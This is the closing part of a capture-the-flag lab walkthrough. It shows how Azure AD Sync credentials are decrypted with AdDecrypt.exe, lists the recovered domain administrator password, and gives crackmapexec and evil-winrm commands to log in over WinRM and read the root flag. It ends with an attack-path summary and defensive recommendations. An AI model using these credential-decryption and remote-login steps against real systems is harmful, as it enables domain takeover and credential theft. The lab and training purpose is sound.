


Run the tool from the Azure AD Sync `Bin` directory (working directory requirement):

```powershell
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"
C:\Windows\Temp\privesc\AdDecrypt.exe -FullSQL
```



**Decrypted credentials observed:**

| User                           | Password           |
| ------------------------------ | ------------------ |
| `MEGABANK.LOCAL\\administrator` | `d0m@in4dminyeah!` |

---
### 4.3 WinRM as `administrator` → root

These credentials should work over WinRM:

```bash
crackmapexec winrm 10.129.228.111 -u 'administrator' -p 'd0m@in4dminyeah!'
```



Read `root.txt`:

```powershell
evil-winrm -i 10.129.228.111 -u administrator -p 'd0m@in4dminyeah!'
whoami
cd $env:USERPROFILE\Desktop
dir
type root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Nmap** → DC-like services (LDAP/SMB/WinRM/ADWS) identified.  
2. **LDAP + RPC null session** → user list + `lockoutThreshold: 0` (safe spraying).  
3. **Password spray** → `SABatchJobs:SABatchJobs` (SMB valid).  
4. **SMB shares** → `users$` readable → `mhope\\azure.xml` leaks password.  
5. **Password reuse** → `mhope` WinRM → `user.txt`.  
6. **Azure AD Sync** → decrypt sync credentials → `administrator` WinRM → `root.txt`.

---
## Defensive Recommendations

- **Password policy:** Enforce strong passwords; prevent **password == username** patterns for service accounts.  
- **Lockout policy:** While lockout policies require careful tuning, `lockoutThreshold: 0` makes spraying safer for attackers.  
- **SMB shares:** Restrict access to sensitive shares like `users$`; avoid world-readable profile artifacts.  
- **Secrets in files:** Do not store credentials in plaintext XML artifacts (e.g., exported PowerShell objects).  
- **Azure AD Connect:** Treat AD Sync servers as tier-0 assets; restrict admin access and monitor for access to ADSync databases / credential material.  
- **Monitoring:** Alert on unusual access to `C:\Program Files\Microsoft Azure AD Sync\Bin` and execution of unexpected binaries.
